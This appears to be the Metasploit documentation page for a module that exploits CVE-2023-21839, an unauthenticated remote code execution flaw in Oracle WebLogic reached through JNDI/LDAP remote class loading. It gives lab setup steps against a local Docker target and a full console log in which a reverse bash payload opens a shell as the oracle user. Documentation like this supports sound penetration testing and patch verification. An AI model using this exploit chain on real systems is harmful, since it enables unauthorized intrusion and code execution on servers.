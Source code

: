 ## Vulnerable Application

### Description
Oracle Weblogic 12.2.1.3.0, 12.2.1.4.0 and 14.1.1.0.0 prior to the Jan 2023 security update are vulnerable to an unauthenticated
remote code execution vulnerability due to a post deserialization vulnerability. This occurs when an attacker serializes
a `ForeignOpaqueReference` class object, deserializes it on the target, and then post deserialization, calls the
object's `getReferent()` method, which will make use of the `ForeignOpaqueReference` class's `remoteJNDIName` variable,
which is under the attackers control, to do a remote loading of the JNDI address specified by `remoteJNDIName` via
the `lookup()` function.

This can in turn lead to a deserialization vulnerability whereby an attacker supplies the address of a HTTP server hosting
a malicious Java class file, which will then be loaded into the Oracle Weblogic process's memory and an attempt to
create a new instance of the attacker's class will be made. Attackers can utilize this to execute arbitrary Java
code during the instantiation of the object, thereby getting remote code execution as the `oracle` user.

This module exploits this vulnerability to trigger the JNDI connection to a LDAP server we control. The LDAP server will
then respond with a remote reference response that points to a HTTP server that we control, where the malicious Java
class file will be hosted. Oracle Weblogic will then make a HTTP request to retrieve the malicious Java class file,
at which point our HTTP server will serve up the malicious class file and Oracle Weblogic will instantiate
an instance of that class, granting us RCE as the `oracle` user.

## Verification Steps

1. Make sure you have Docker and Docker Compose installed. If not follow https://docs.docker.com/engine/install.
2. `git clone git@github.com:vulnhub/vulnhub.git`
3. `cd weblogic/CVE-2023-21839/cmd`
4. `docker-compose up -d` and wait for the build to finish, then a few seconds for startup.
5. Do: `use exploit/multi/iiop/cve_2023_21839_weblogic_rce`
6. Do `set SRVPORT *some high port*` for LDAP server port number since we can't listen on the default port `389` without being `root`.
7. Do `set HTTP_SRVPORT *port*` if you want to change the HTTP server port.
8. Do `set RHOSTS 127.0.0.1` to target the local Docker instance.
9. Do `set SRVHOST *LDAP server IP address*` for LDAP server host. NOTE: Have to provide a routeable IP address, 0.0.0.0 won't work.
10. Do `set LHOST *IP address of Metasploit machine*`
11. Do: `exploit`
12. Verify that you get a shell on the target system as the `oracle` user.


## Options

### HTTP_SRVPORT
The port where the HTTP server will listen.

### SRVPORT
The port where the LDAP server will listen.

### SRVHOST
The IP address where where the LDAP server will be listening.

## Scenarios

### Oracle Weblogic 12.2.1.3 with Java 1.8.0_151-b12 - Docker Image
```
msf6 exploit(multi/iiop/cve_2023_21839_weblogic_rce) > show options

Module options (exploit/multi/iiop/cve_2023_21839_weblogic_rce):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   HTTP_SRVPORT  8089             yes       The HTTP server port
   LDIF_FILE                      no        Directory LDIF file path
   RHOSTS        127.0.0.1        yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT         7001             yes       The target port (TCP)
   SRVHOST       192.168.204.149  yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT       4939             yes       The local port to listen on.


Payload options (cmd/unix/reverse_bash):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.204.149  yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Linux



View the full module info with the info, or info -d command.

msf6 exploit(multi/iiop/cve_2023_21839_weblogic_rce) > check
[+] 127.0.0.1:7001 - The target is vulnerable. Target is a Oracle WebServer 12.2.1.3 server, and is vulnerable!
msf6 exploit(multi/iiop/cve_2023_21839_weblogic_rce) > exploit

[*] Started reverse TCP handler on 192.168.204.149:4444 
[*] 127.0.0.1:7001 - Running automatic check ("set AutoCheck false" to disable)
[+] 127.0.0.1:7001 - The target is vulnerable. Target is a Oracle WebServer 12.2.1.3 server, and is vulnerable!
[*] 127.0.0.1:7001 - 1. Making T3 connection...
[+] 127.0.0.1:7001 - Made T3 connection!
[*] 127.0.0.1:7001 - 2. Sending first GIOP LocateRequest packet
[+] 127.0.0.1:7001 - Step 2 complete!
[*] 127.0.0.1:7001 - 3. Sending rebindAny request!
[+] 127.0.0.1:7001 - Step 3 complete!
[*] 127.0.0.1:7001 - 4. Sending second rebindAny request!
[+] 127.0.0.1:7001 - Step 4 complete!
[*] 127.0.0.1:7001 - 5. Sending second GIOP LocateRequest packet
[+] 127.0.0.1:7001 - Step 5 complete!
[*] 127.0.0.1:7001 - 6. Sending resolve packet #1 with wls_key_1
[+] 127.0.0.1:7001 - Step 6 complete!
[*] 127.0.0.1:7001 - Serving Java code on: http://192.168.204.149:8089/PayloadRuns.class
[*] 127.0.0.1:7001 - 7. Sending resolve packet #2 with wls_key_2
[+] 127.0.0.1:7001 - Step 7 complete!
[*] 127.0.0.1:7001 - Sleeping for 8 seconds to allow LDAP and HTTP traffic to go through.
[*] Command shell session 1 opened (192.168.204.149:4444 -> 172.18.0.2:46440) at 2023-05-17 16:48:56 -0500

id
uid=1000(oracle) gid=1000(oracle) groups=1000(oracle)
whoami
oracle
uname -a 
Linux 8e6d76ecdb0d 5.19.0-41-generic #42~22.04.1-Ubuntu SMP PREEMPT_DYNAMIC Tue Apr 18 17:40:00 UTC 2 x86_64 x86_64 x86_64 GNU/Linux
pwd
/u01/oracle/user_projects/domains/base_domain
```

